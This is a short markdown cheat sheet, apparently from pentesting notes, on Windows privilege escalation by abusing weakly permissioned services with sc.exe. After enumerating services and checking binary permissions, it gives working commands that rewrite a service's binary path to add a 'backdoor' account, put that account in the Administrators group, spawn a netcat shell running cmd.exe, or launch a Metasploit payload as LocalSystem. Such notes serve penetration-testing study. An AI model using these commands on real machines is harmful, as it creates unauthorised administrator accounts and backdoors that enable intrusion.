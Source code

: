 # Service Control

* Query all services and find weak ones:
  ```
  c:> sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

  c:> FOR /F %i in (Servicenames.txt) DO echo %i
  c:> type Servicenames.txt

  c:> FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

  c:> FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
  ```
  Now you can process them one by one with the cacls command.
  ```
  c:> cacls "C:\path\to\file.exe"
  ```

* Alternatively, use `accesschk.exe` to find potentially weak services, then query with `sc.exe` like below
```
c:> sc qc <vulnerable service name>
```

**Other sc.exe commands**
* Query
  ```
  c:> sc qc upnphost
  [SC] GetServiceConfig SUCCESS

  SERVICE_NAME: upnphost
          TYPE                : 20  WIN32_SHARE_PROCESS
          START_TYPE          : 3   DEMAND_START
          ERROR_CONTROL       : 1   NORMAL
          BINARY_PATH_NAME    : C:\Windows\System32\svchost.exe -k LocalService
          LOAD_ORDER_GROUP    :
          TAG                 : 0
          DISPLAY_NAME        : Universal Plug and Play Device Host
          DEPENDENCIES        : SSDPSRV
          SERVICE_START_NAME  : NT AUTHORITY\LocalService
  ```

* Reconfigure service (when access allowed)
  ```
  c:> sc config upnphost binpath= "net user hax /add"
  OR
  c:> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
  c:> sc config upnphost obj= ".LocalSystem" password=""

  c:> net stop upnphost
  c:> net start upnphost
  ```
  OR more generically (adding admin user)
  ```
  c:> sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
  c:> sc stop <vuln-service>
  c:> sc start <vuln-service>
  c:> sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
  c:> sc stop <vuln-service>
  c:> sc start <vuln-service>
  ```
  NOTE: Might need to add the **depend** attribute explicitly.
  ```
  sc stop <vuln-service>
  sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
  sc start <vuln-service>
  ```
